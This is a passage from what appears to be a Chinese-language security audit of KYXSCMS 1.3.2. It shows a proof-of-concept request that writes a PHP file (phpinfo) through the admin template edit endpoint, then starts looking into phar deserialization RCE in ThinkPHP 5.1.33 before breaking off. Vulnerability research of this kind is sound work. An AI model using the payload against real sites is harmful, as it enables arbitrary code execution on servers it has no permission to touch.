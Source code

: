 相当于调用`file_put_contents($filename,$content)`。



POC：

```
http://www.kyxscms132.com/admin/template/edit

path=.feng.php&content=<?php phpinfo();?>
```

![pic9](KYXSCMS1.3.2审计与测试.assets/pic9.png)



接下来开始自己挖掘这个CMS的漏洞。

## phar rce 1

其实之前一直在考虑，既然是thinkphp5.1.33，是不是可以利用phar反序列化。但是找文件操作函数没找到。这里的写文件其实没法phar，因为前面的mkdir过不去：
